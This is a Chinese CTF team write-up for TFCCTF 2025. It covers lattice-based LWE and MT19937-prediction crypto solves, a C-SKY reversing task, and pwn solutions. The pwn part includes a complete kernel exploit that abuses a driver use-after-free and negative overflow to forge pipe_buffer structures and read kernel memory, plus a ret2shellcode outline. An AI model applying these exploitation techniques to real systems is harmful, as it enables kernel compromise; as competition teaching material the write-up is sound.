本次 TFCCTF 我们 SU 取得了第六名 的成绩，感谢队里师傅们的辛苦付出！同时我们也在持续招人，欢迎发送个人简介至：suers_xctf@126.com 或者直接联系baozongwi QQ:2405758945。
以下是我们 SU 本次 2025 TFCCTF的 WriteUp。
本次 TFCCTF 我们 SU 取得了第六名 的成绩，感谢队里师傅们的辛苦付出！同时我们也在持续招人，欢迎发送个人简介至：suers_xctf@126.com 或者直接联系baozongwi QQ:2405758945。
以下是我们 SU 本次 2025 TFCCTF的 WriteUp。
Crypto DEEZ ERRORS 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 from Crypto.Util.number import long_to_bytes, bytes_to_long import random from secret import flag mod = 0x225fd flag = bytes_to_long(flag) e_values = [97491 , 14061 , 55776 ] S = (lambda f=[flag], sk=[]: ([sk.append(f[0 ] % mod) or f.__setitem__(0 , f[0 ] // mod) for _ in iter (lambda : f[0 ], 0 )],sk)[1 ])() S = vector(GF(mod), S) A_save = [] b_save = [] for i in range (52 ): A = VectorSpace(GF(mod), 44 ).random_element() e = random.choice(e_values) b = A * S + e A_save.append(A) b_save.append(b) open ('out.txt' , 'w' ).write('A_values = ' + str (A_save) + ' ; b_values = ' + str (b_save))
在这里将 flag 通过 $mod$ 进制转换为一个向量 $\pmb{s}$ 之后进行加密，根据加密的形式很显然这就是 LWE，这里的误差向量
$$
\pmb{e}\in\{97491,14061,55776\}^{52},
$$
而
$$
97491 = 55776+41715, \quad 14061=55776-41715.
$$
我们令 $d=41715$，则有：
$$
\pmb{e}=
\begin{pmatrix}
55776\\
55776\\
\vdots\\
55776
\end{pmatrix}
+
d\begin{pmatrix}
\varepsilon\_1\\
\varepsilon\_2\\
\vdots\\
\varepsilon\_{52}
\end{pmatrix}.
$$
其中 $\varepsilon_i \in {-1,0,1},,(i=1,2,\cdots,52)$，所以有：
$$
\pmb{b}=\pmb{A}\pmb{s}+\pmb{e}
=\pmb{A}\pmb{s}+
\begin{pmatrix}
55776\\
55776\\
\vdots\\
55776
\end{pmatrix}
+
d\begin{pmatrix}
\varepsilon\_1\\
\varepsilon\_2\\
\vdots\\
\varepsilon\_{52}
\end{pmatrix}.
$$
从而：
$$
\pmb{b}-
\begin{pmatrix}
55776\\
55776\\
\vdots\\
55776
\end{pmatrix}
=
\pmb{A}\pmb{s}+
d\begin{pmatrix}
\varepsilon\_1\\
\varepsilon\_2\\
\vdots\\
\varepsilon\_{52}
\end{pmatrix}.
$$
令
$$
\pmb{b}'=\pmb{b}-(55776,55776,\cdots,55776)^{T}, \quad
\pmb{\varepsilon}=(\varepsilon\_1,\varepsilon\_2,\cdots,\varepsilon\_{52})^{T},
$$
有：
$$
\pmb{b}'=\pmb{A}\pmb{s}+d\pmb{\varepsilon}.
$$
那么我们就可以将原来误差向量较大的 LWE 转换为一个误差向量中元素均在 ${-1,0,1}$ 中的 LWE：
$$
d^{-1}\pmb{b}'=d^{-1}\pmb{A}\pmb{s}+\pmb{\varepsilon}.
$$
因为 $\pmb{s}$ 较大，所以需要使用 LWE | Triode Field 中提到的先求 HNF 再进行规约的方法。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 from Crypto.Util.number import *from random import choicesA_values = [...] b_values = [...] e_values = [97491 , 14061 , 55776 ] d = e_values[2 ] - e_values[1 ] mod = 0x225fd b_values = [x - e_values[2 ] for x in b_values] A = inverse(d, mod) * matrix(ZZ, A_values) b = inverse(d, mod) * matrix(b_values) m = len (b[0 ]) B = block_matrix(ZZ, 2 , 1 , [[A.transpose()], [mod]]) B_HNF = B.hermite_form(include_zero_rows=False ) L = block_matrix(ZZ, 2 , 2 , [[B_HNF, 0 ], [b, d]]) res = L.BKZ() for v in res: if all (x in [-1 , 0 , 1 ] for x in v[:-1 ]): if v[-1 ] == -d: e = -vector(v[:-1 ]) else : e = vector(v[:-1 ]) cvp = vector(b) - e AA = matrix(Zmod(mod), A) cvp = vector(Zmod(mod), cvp) s = AA.solve_right(cvp) flag = 0 for i in s[::-1 ]: flag = flag * mod + ZZ(i) print (long_to_bytes(flag))
MINI AURA csky架构最后发现只有ghidra反编译比较成功
需要安装ghidra插件
https://github.com/leommxj/ghidra_csky
反编译完直接就跳到了main而且非常清晰
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 245 246 247 248 249 250 251 252 253 254 255 256 257 258 259 260 261 262 263 264 265 266 267 268 269 270 271 272 273 274 275 276 277 278 279 280 281 282 283 284 285 286 287 288 289 290 291 292 293 294 295 296 297 298 299 300 301 302 303 304 305 306 307 308 309 310 311 312 313 314 315 316 317 undefined4 main (void ) { FILE *__stream; size_t sVar1; char *__ptr; byte *__dest; int *__dest_00; int iVar2; char *pcVar3; byte *pbVar4; uint uVar5; byte *pbVar6; uint uVar7; bool bVar8; byte *pbVar9; int iVar10; int *piVar11; uint uVar12; uint *puVar13; int iVar14; uint *puVar15; uint *puVar16; size_t sVar17; uint *puVar18; undefined4 *puVar19; uint *puStack_e4; uint *puStack_e0; byte local_dc [16 ]; uint local_cc [12 ]; uint local_9c [12 ]; uint local_6c [16 ]; __stream = fopen("flag.txt" ,"rb" ); if (__stream != (FILE *)0x0 ) { fseek(__stream,0 ,2 ); sVar1 = ftell(__stream); if ((int )sVar1 < 0 ) { fclose(__stream); } else { fseek(__stream,0 ,0 ); __ptr = (char *)malloc (sVar1); sVar1 = fread(__ptr,1 ,sVar1,__stream); fclose(__stream); if (sVar1 != 0 ) { uVar12 = 0 ; pcVar3 = __ptr; do { if ((*pcVar3 != ' ' ) && (4 < (byte)(*pcVar3 - 9U ))) { if (uVar12 < sVar1) { pcVar3 = __ptr + (sVar1 - 1 ); uVar7 = sVar1 - 1 ; goto LAB_00008840; } break ; } uVar12 = uVar12 + 1 ; pcVar3 = pcVar3 + 1 ; } while (sVar1 != uVar12); } LAB_00008bfc: free (__ptr); } } memset (local_dc,0 ,0x10 ); __dest = (byte *)0x0 ; goto LAB_000088a8; LAB_00008840: uVar5 = uVar7; if ((*pcVar3 != ' ' ) && (4 < (byte)(*pcVar3 - 9U ))) { if (uVar12 < sVar1) { sVar1 = sVar1 - uVar12; __dest = (byte *)malloc (sVar1); memcpy (__dest,__ptr + uVar12,sVar1); free (__ptr); pbVar9 = local_dc; local_dc[0 ] = 0 ; local_dc[1 ] = 0 ; local_dc[2 ] = 0 ; local_dc[3 ] = 0 ; local_dc[4 ] = 0 ; local_dc[5 ] = 0 ; local_dc[6 ] = 0 ; local_dc[7 ] = 0 ; local_dc[8 ] = 0 ; local_dc[9 ] = 0 ; local_dc[10 ] = 0 ; local_dc[0xb ] = 0 ; local_dc[0xc ] = 0 ; local_dc[0xd ] = 0 ; local_dc[0xe ] = 0 ; local_dc[0xf ] = 0 ; pbVar4 = pbVar9 + sVar1; pbVar6 = __dest; goto LAB_0000889c; } goto LAB_00008bfc; } pcVar3 = pcVar3 + -1 ; if (uVar5 <= uVar12) goto LAB_00008bfc; uVar7 = uVar5 - 1 ; sVar1 = uVar5; goto LAB_00008840; while ( true ) { pbVar9 = pbVar9 + 1 ; pbVar6 = pbVar6 + 1 ; if (pbVar9 == pbVar4) break ; LAB_0000889c: *pbVar9 = *pbVar6; if (pbVar9 == local_dc + 0xf ) break ; } LAB_000088a8: pbVar6 = local_dc; free (__dest); memset (local_6c,0 ,0x40 ); iVar10 = 0 ; do { local_6c[iVar10] = (uint)*pbVar6; iVar10 = iVar10 + 1 ; pbVar6 = pbVar6 + 1 ; } while (iVar10 != 0x10 ); puVar18 = (uint *)(local_dc + 0x10 ); srandom(0x539 ); puVar13 = puVar18; do { *puVar13 = 0 ; puVar13[1 ] = 0 ; puVar13[2 ] = 0 ; iVar14 = 0 ; iVar10 = iVar14; do { if (iVar10 < 4 ) { for (; iVar14 < 4 ; iVar14 = iVar14 + 1 ) { } } do { uVar12 = rand(); } while (0x7fffff7e < uVar12); uVar12 = uVar12 % 0x101 ; if (uVar12 != 0 ) { if (iVar10 == iVar14) { func_1430(puVar13,1 ,iVar10,0 ,uVar12); } else { func_1430(puVar13,2 ,iVar10,iVar14,uVar12); } } iVar14 = iVar14 + 1 ; } while ((iVar14 != 8 ) || (iVar14 = iVar10 + 1 , iVar10 = iVar14, iVar14 != 8 )); iVar10 = 0 ; do { do { uVar12 = rand(); } while (0x7fffff7e < uVar12); if (uVar12 % 0x101 != 0 ) { func_1430(puVar13,1 ,iVar10,0 ,uVar12 % 0x101 ); } iVar10 = iVar10 + 1 ; } while (iVar10 != 8 ); do { uVar12 = rand(); } while (0x7fffff7e < uVar12); if (uVar12 % 0x101 != 0 ) { func_1430(puVar13,0 ,0 ,0 ,uVar12 % 0x101 ); } uVar12 = puVar13[1 ]; piVar11 = (int *)*puVar13; if (uVar12 != 0 ) { uVar7 = 0 ; do { while (*piVar11 != 1 ) { if ((*piVar11 == 2 ) && ((piVar11[1 ] < 4 || (piVar11[2 ] < 4 )))) goto LAB_00008a30; uVar7 = uVar7 + 1 ; piVar11 = piVar11 + 4 ; if (uVar12 == uVar7) goto LAB_000089fc; } if (piVar11[1 ] < 4 ) goto LAB_00008a30; uVar7 = uVar7 + 1 ; piVar11 = piVar11 + 4 ; } while (uVar12 != uVar7); } LAB_000089fc: do { uVar12 = rand(); } while ((int )uVar12 < 0 ); do { uVar7 = rand(); } while ((int )uVar7 < 0 ); func_1430(puVar13,2 ,uVar12 & 3 ,(uVar7 & 3 ) + 4 ,1 ); LAB_00008a30: puVar13 = puVar13 + 3 ; } while (puVar13 != local_9c); puStack_e4 = local_6c; puVar13 = local_9c; do { *puVar13 = 0 ; puVar13[1 ] = 0 ; puVar13[2 ] = 0 ; puVar15 = puVar18; puVar16 = puStack_e4; do { iVar10 = (int )*puVar16 % 0x101 ; if (iVar10 < 0 ) { iVar10 = iVar10 + 0x101 ; LAB_00008a6e: uVar12 = puVar15[1 ]; if (uVar12 != 0 ) { puVar19 = (undefined4 *)*puVar15; uVar7 = 0 ; do { iVar14 = (iVar10 * puVar19[3 ]) % 0x101 ; if (iVar14 < 0 ) { iVar14 = iVar14 + 0x101 ; } uVar7 = uVar7 + 1 ; func_1430(puVar13,*puVar19,puVar19[1 ],puVar19[2 ],iVar14); puVar19 = puVar19 + 4 ; } while (uVar12 != uVar7); } } else if (iVar10 != 0 ) goto LAB_00008a6e; puVar15 = puVar15 + 3 ; puVar16 = puVar16 + 1 ; } while (puVar15 != local_9c); puStack_e4 = puStack_e4 + 4 ; puVar13 = puVar13 + 3 ; if (local_6c == puVar13) { iVar10 = 0 ; puVar13 = local_9c; do { iVar10 = iVar10 + 1 ; iVar14 = 1 ; printf ("P%d(" ,iVar10); printf ("x%d" ,1 ); do { iVar14 = iVar14 + 1 ; putchar (0x2c ); printf ("x%d" ,iVar14); } while (iVar14 != 8 ); printf (") = " ); sVar1 = puVar13[1 ]; if (sVar1 == 0 ) { printf ("0 (mod %d)\n" ,0x101 ); } else { __dest_00 = (int *)malloc (sVar1 << 4 ); sVar17 = 0 ; memcpy (__dest_00,(void *)*puVar13,sVar1 << 4 ); qsort(__dest_00,sVar1,0x10 ,func_15f0); bVar8 = false ; piVar11 = __dest_00; do { iVar14 = piVar11[3 ]; if (iVar14 != 0 ) { if (bVar8) { printf (" + " ); iVar14 = piVar11[3 ]; } if (*piVar11 == 0 ) { printf ("%d" ); } else { iVar2 = piVar11[1 ] + 1 ; if (*piVar11 == 1 ) { if (iVar14 == 1 ) { printf ("x%d" ,iVar2); } else { printf ("%d*x%d" ,iVar14,iVar2); } } else if (piVar11[2 ] == piVar11[1 ]) { if (iVar14 == 1 ) { printf ("x%d^2" ,iVar2); } else { printf ("%d*x%d^2" ,iVar14,iVar2); } } else if (iVar14 == 1 ) { printf ("x%d*x%d" ,iVar2,piVar11[2 ] + 1 ); } else { printf ("%d*x%d*x%d" ,iVar14,iVar2); } } bVar8 = true ; } sVar17 = sVar17 + 1 ; piVar11 = piVar11 + 4 ; } while (sVar1 != sVar17); free (__dest_00); printf (" (mod %d)\n" ,0x101 ); } puVar13 = puVar13 + 3 ; puStack_e0 = local_9c; } while (iVar10 != 4 ); do { free ((void *)*puVar18); *puVar18 = 0 ; puVar18[2 ] = 0 ; puVar18[1 ] = 0 ; puVar18 = puVar18 + 3 ; free ((void *)*puStack_e0); *puStack_e0 = 0 ; puStack_e0[2 ] = 0 ; puStack_e0[1 ] = 0 ; puStack_e0 = puStack_e0 + 3 ; } while (puVar18 != local_9c); return 0 ; } } while ( true ); }
使用Gemini分析可以得到：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 #include <stdio.h> #include <stdlib.h> #include <string.h> #define MODULUS 257 int main (void ) char * file_content = read_file_content ("flag.txt" ); if (!file_content) { return 1 ; } char * trimmed_input = trim_whitespace (file_content); unsigned int input_coeffs[16 ] = {0 }; for (int i = 0 ; i < 16 && i < strlen (trimmed_input); ++i) { input_coeffs[i] = (unsigned char )trimmed_input[i]; } free (file_content); srandom (1337 ); Polynomial base_polynomials[4 ]; for (int i = 0 ; i < 4 ; ++i) { base_polynomials[i] = generate_random_polynomial (); } Polynomial final_polynomials[4 ]; for (int i = 0 ; i < 4 ; ++i) { final_polynomials[i] = create_empty_polynomial (); for (int j = 0 ; j < 4 ; ++j) { add_scaled_polynomial (&final_polynomials[i], base_polynomials[j], input_coeffs[i*4 + j]); } } printf ("生成的方程组如下 (所有运算都在模 %d 意义下进行):\n" , MODULUS); for (int i = 0 ; i < 4 ; ++i) { printf ("P%d(x1,x2,...,x8) = " , i + 1 ); print_polynomial (final_polynomials[i]); printf (" (mod %d)\n" , MODULUS); } return 0 ; }
对于每次运行，它会生成四个随机的八元多项式
$$
Q\_0,Q\_1,Q\_2,Q\_3
$$
（因为每次的随机数种子都是 1337，所以每一次运行得到的这四个多项式都是一样的），flag.txt，它会取出前 16 个字节得到
$$
a\_0,a\_1,\cdots,a\_{16},
$$
然后计算：
$$
\begin{cases}
P\_0 \equiv a\_0Q\_0+a\_1Q\_1+a\_2Q\_2+a\_3Q\_3 \pmod{257}\\
P\_1 \equiv a\_4Q\_0+a\_5Q\_1+a\_6Q\_2+a\_7Q\_3 \pmod{257}\\
P\_2 \equiv a\_8Q\_0+a\_9Q\_1+a\_{10}Q\_2+a\_{11}Q\_3 \pmod{257}\\
P\_3 \equiv a\_{12}Q\_0+a\_{13}Q\_1+a\_{14}Q\_2+a\_{15}Q\_3 \pmod{257}
\end{cases}
$$
显然，我们令
$$
a\_0,a\_5,a\_{10},a\_{15} = 1,
$$
其余为 0 即可得到：
$$
\begin{cases}
P\_0 \equiv Q\_0 \pmod{257}\\
P\_1 \equiv Q\_1 \pmod{257}\\
P\_2 \equiv Q\_2 \pmod{257}\\
P\_3 \equiv Q\_3 \pmod{257}
\end{cases}
$$
那么我们只需要令 flag.txt 中的内容为\x01\x00\x00\x00\x00\x01\x00\x00\x00\x00\x01\x00\x00\x00\x00\x01
并使用 Pwn 的题目 MUCUSKY 的附件中给出的 qemu 来运行本题的程序，即可得到
$$
Q\_0,Q\_1,Q\_2,Q\_3
$$
再对比题目给出的
$$
P\_0,P\_1,P\_2,P\_3
$$
来解系数方程就可以得到 flag。
首先通过如下代码生成内容为\x01\x00\x00\x00\x00\x01\x00\x00\x00\x00\x01\x00\x00\x00\x00\x01的flag.txt：
1 2 3 f = open ("./flag.txt" , 'wb' ) f.write(b"\x01\x00\x00\x00\x00\x01\x00\x00\x00\x00\x01\x00\x00\x00\x00\x01" ) f.close()

再分别求解系数方程就可以得到flag：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 from tqdm import tqdmp = 257 A = matrix(Zmod(p), [[122 , 221 , 33 , 231 ], [16 , 123 , 236 , 26 ], [85 , 148 , 12 , 149 ], [46 , 21 , 186 , 212 ]]) b1 = vector(Zmod(p), [122 , 248 , 32 , 106 ]) b2 = vector(Zmod(p), [204 , 197 , 178 , 99 ]) b3 = vector(Zmod(p), [210 , 24 , 256 , 207 ]) b4 = vector(Zmod(p), [58 , 43 , 101 , 140 ]) bs = [b1, b2, b3, b4] flag = "" for b in bs: v = A.solve_right(b) for vi in v: flag += chr (vi) print (flag)
WHY THE BEAR HAS NO TAIL 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 import randomfrom secret_stuff import FLAGclass Challenge (): def __init__ (self ): self .n = 2 **26 self .k = 2000 self .index = 0 def get_sample (self ): self .index += 1 if self .index > self .k: print ("Reached end of buffer" ) else : print ("uhhh here is something but idk what u finna do with it: " , random.choices(range (self .n), k=1 )[0 ]) def get_flag (self ): idxs = [i for i in range (256 )] key = random.choices(idxs, k=len (FLAG)) omlet = [ord (FLAG[i]) ^ key[i] for i in range (len (FLAG))] print ("uhh ig I can give you this if you really want it... chat?" , omlet) def loop (self ): while True : print ("what you finna do, huh?" ) print ("1. guava" ) print ("2. muava" ) choice = input ("Enter your choice: " ) if choice == "1" : self .get_sample() elif choice == "2" : self .get_flag() else : print ("Invalid choice" ) if __name__ == "__main__" : c = Challenge() c.loop()
从题目中的代码可以得到，有2000次机会可以获取一个随机数值，这个值的范围在0~2^26之间，即题目中的程序使用random.choices(range(self.n), k=1)随机获取0~2^26之间的一个随机值。
通过查看random.choices()这个函数，发现该函数会调用floor(random() * n)这个函数对这选择0~2^26这个列表中的一个数据，而0~2^26这个列表是按顺序排列的。
1 return [population[floor(random() * n)] for i in _repeat(None , k)]
所以选择choice为1的时候本质上就是获得floor(random() * n)的值，接下来就需要看random()这个函数是如何生成随机数的。而Python的随机数模块使用的是MT19937算法，所以此题考察的就是MT19937算法的预测或者恢复（预测或者恢复主要是看输入choice为2的时机）。
通过询问AI得知，Python的random模块有些是直接使用C语言实现的，这些用C语言实现的随机数函数在编译Python解释器的时候已经被编译了，题目中的random()这个函数就是C语言实现的。所以需要到CPython相关的github仓库查看一下源码。在CPython中的这个仓库中可以找到源码 https://github.com/python/cpython/blob/main/Modules/_randommodule.c

从源码中就可以看到random()在生成的时候相当于调用了俩次random.randbytes(32)，其中a取高27位，b取高26位。总的来说choice选择1，得到的就是floor(random() * n)的值，也就是能得到MT19937的26bit的值，但是连续选择choice1得到的26bit并不是连续的。对于已知不连续的nbit的值，本质上是线性方程组求解，求解的原理在这篇文章中情况三有比较详细的说明MT19937分析 ，同时这篇博客有类似的题型https://tangcuxiaojikuai.xyz/post/69eaef2e.html
得到思路后就可以先使用脚本收集足够的数据以及密文，对于MT19937一般题型来说只需要泄露19968位数就能得到MT19937的624个状态，但是线性方程组求解使用19968位解出一般是解不出来正确结果。需要得到更多的位数。（本题测试可知已知32000位数是能得到准确的624个状态的）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 from pwn import *context.log_level = 'debug' n = 2 **26 p = remote("the-bear-45589d3cbdcdfa7c.challs.tfcctf.com" ,1337 ,ssl=True ) candidate = [] for i in range (1550 ): p.sendlineafter(b'Enter your choice:' ,b'1' ) p.recvuntil(b'do with it: ' ) x = p.recvline()[:-1 ].decode() candidate.append(int (x)) print ("candidate =" ,candidate)p.sendlineafter(b'Enter your choice:' ,b'2' ) x = p.recvuntil(b'it... chat? ' ) c = p.recvline()[:-1 ] print ("c = " ,c.decode())p.interactive()
对于接收到的数据，设为矩阵S，对于状态矩阵设为x，这个矩阵必然有下面的式子，而T矩阵需要构造：
x ⋅T =s
对于确定矩阵T的方法可以使用黑盒调用，也就是通过调用从而构造出来。构造出来后就可以通过矩阵运算解出状态矩阵x，注意：需要在模2的条件上解状态矩阵x。从而预测出MT19937。最终的exp如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 from random import *from Crypto.Util.number import long_to_bytesfrom tqdm import trangefrom sage.all import Matrix, GF, vectorfrom pwn import *RNG = Random() n = 2 ^26 candidate = c = leng = len (candidate) def construct_a_row (RNG ): row = [] for i in range (len (candidate)): row += list (map (int , (bin (RNG.choices(range (n), k=1 )[0 ] >> 0 )[2 :].zfill(26 )))) return row L = [] for i in trange(19968 ): state = [0 ]*624 temp = "0" *i + "1" *1 + "0" *(19968 -1 -i) for j in range (624 ): state[j] = int (temp[32 *j:32 *j+32 ],2 ) RNG.setstate((3 ,tuple (state+[624 ]),None )) L.append(construct_a_row(RNG)) L = Matrix(GF(2 ),L) R = [] for i in range (len (candidate)): R += list (map (int , bin (candidate[i] >> 0 )[2 :].zfill(26 ))) R = vector(GF(2 ),R) s = L.solve_left(R) init = "" .join(list (map (str ,s))) state = [] for i in range (624 ): state.append(int (init[32 *i:32 *i+32 ],2 )) RNG1 = Random() RNG1.setstate((3 ,tuple (state+[624 ]),None )) for i in range (leng): RNG1.choices(range (n), k=1 )[0 ] idxs = [i for i in range (256 )] key = RNG1.choices(idxs, k=len (c)) omlet = [c[i] ^^ key[i] for i in range (len (c))] print (key)for i in range (len (omlet)): print (chr (omlet[i]),end='' )
Pwn SLOTS 内核baby题，UAF 漏洞 + 可以 负向 溢出
不是很熟悉内核的的堆，代码都是瞎几把写的，不过还是做出来了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 #include "minilib.h" char VULN_DEVICE[] = "/dev/slot_machine" ;int fd;int odp (char *path) { return open(path, 2 ); }struct mytest { size_t offset; size_t size; char *buf; }; struct pipe_buffer { size_t page; unsigned int offset, len; size_t ops; unsigned int flags; unsigned long private; }; void rm () { ioctl(fd, 1 , 0 ); } void add (size_t size) { size_t sz = size; ioctl(fd, 0 , (size_t )&sz); } void show (size_t o, size_t s, char *b) { struct mytest temp = .offset = o, .size = s, .buf = b }; ioctl(fd, 1337 , (size_t )&temp); } void edit (size_t o, size_t s, char *b) { struct mytest temp = .offset = o, .size = s, .buf = b }; ioctl(fd, 3 , (size_t )&temp); } int pipe (int pfd[2 ]) { return syscall64(22 , pfd); }void doMain () { fd = odp(VULN_DEVICE); lss("fd" , fd); size_t *ptr = (size_t *)malloc (0x1000 ); memset ((void *)ptr, 0x41 , 0x1000 ); int pfd[0x100 ][2 ]; for (int i=0 ;i<0x80 ;i++){ pipe(pfd[i]); } add(0x400 ); edit(0 ,0x10 ,(char *)ptr); rm(); for (int i=0x80 ;i<0x100 ;i++){ pipe(pfd[i]); } char *tmp_buf = (char *)malloc (0x1000 ); memset ((void *)tmp_buf, 0x59 , 0xFFF ); for (int i=0x81 ;i<0x100 ;i+=2 ){ write(pfd[i][1 ],tmp_buf,0x800 ); } size_t *out = (size_t *)malloc (0x1000 ); int tmp = 0 ; for (int i=0 ;i<0x100 ;i++){ tmp = i; show(-0x400 *i,1 + 0x400 *i,(char *)out); if (out[0 ]){ hexdump((unsigned char *)out,0x50 ); hex(i); break ; } } size_t kernel_base = out[2 ] - 0x6128c0 ; size_t fsrc = (out[0 ]); lss("kernel_base" , kernel_base); size_t flag_addr = (out[0 ] & 0xFFFFFFFFFF000000 ); out[0 ] = flag_addr; edit(-0x400 *tmp,1 + 0x400 *tmp,(char *)out); int tmp_fd_idx = 0 ; for (int i=0x81 ;i<0x100 ;i+=2 ){ tmp_fd_idx = i; read(pfd[i][0 ],(char *)ptr,0x400 ); if (((size_t *)ptr)[0 ] != 0x5959595959595959 ){ hexdump((unsigned char *)ptr,0x10 ); lss("tmp_fd_idx" , tmp_fd_idx); break ; } } size_t j = 1 ; size_t base = (out[0 ] & 0xFFFFFFFFFF000000 ); memset ((void *)tmp_buf, 0x42 , 0xFFF ); struct pipe_buffer *pb =struct pipe_buffer *)malloc (0x1000 ); puts ("read..." ); while (1 ){ size_t target_mask = j * 0x1000 ; target_mask >>= 0xC ; target_mask <<= 0x6 ; pb->page = base + target_mask; pb->offset = 0 ; pb->len = 0x800 ; pb->ops = kernel_base + 0x6128c0 ; pb->flags = 0x10 ; edit(-0x400 *tmp,1 + 0x400 *tmp,(char *)pb); read(pfd[tmp_fd_idx][0 ],(char *)ptr,0x700 ); if ((ptr[0x560 /8 ] & 0xFFFFFF ) == 0x434654 || (ptr[0x560 /8 ] & 0xFFFFFF ) == 0x465443 ) { puts ((char *)&ptr[0x560 /8 ]); break ; } j++; } } extern void _start(){ size_t env[0 ]; environ = (size_t )&env[4 ]; doMain(); syscall64(60 ,0 ); }
MUCUSKY 下载一个ghida插件
https://github.com/leommxj/ghidra_csky
栈溢出

后面就是 调试工具了可以从这里下载到
https://gitee.com/swxu/csky-elfabiv2-tools
后面经过测试发现 stack 地址 貌似是固定的
然后 ret2shellcode
要注意的是 有些字符不能发送，不然会截断？
